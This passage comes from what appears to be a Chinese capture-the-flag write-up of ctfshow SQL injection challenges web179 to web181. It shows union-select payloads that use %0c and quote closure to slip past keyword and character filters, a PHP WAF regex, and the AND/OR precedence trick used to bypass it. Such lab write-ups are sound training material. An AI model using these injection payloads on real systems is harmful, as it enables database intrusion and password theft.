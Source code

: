 ```csharp
1'%0cUnion%0cSelect%0c1,2,group_concat(password)from%0cctfshow_user%0cwhere%0cusername='flag'%23
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/44443ed22d0a40b80f2b573643038246.png" alt="" style="max-height:260px; box-sizing:content-box;" />


这里的过滤应该就是讲一些符号加入匹配了



<img src="https://i-blog.csdnimg.cn/blog_migrate/c7f2dcbeb0251786c411c3cbb384fddf.png" alt="" style="max-height:300px; box-sizing:content-box;" />


首先通过url编码获取到值 然后进行匹配

## web180 过滤%23 使用闭合绕过



<img src="https://i-blog.csdnimg.cn/blog_migrate/bc44feb360dfaab7555f2bb76175bc1e.png" alt="" style="max-height:232px; box-sizing:content-box;" />


发现过滤了 %23

这里我们只能使用闭合了 使用 or '1 即可

```cobol
-1'%0cUnion%0cSelect%0c5,group_concat(password),3%0c%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'%0cor'1'='0
```

## web181  通过 and or 优先级获取flag

开始回显waf了 过滤的有点多啊

```php
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

这里一时间没有思路看了wp发现 这里是可以通过 优先级进行绕过的

```cobol
and > or 
 
所以and会先执行
 
 
1 and 0 ====0
 
 
但是 1 and 0 or 1  就会变为   0 or 1  =====1
 
所以我们可以根据这个特性绕过
```
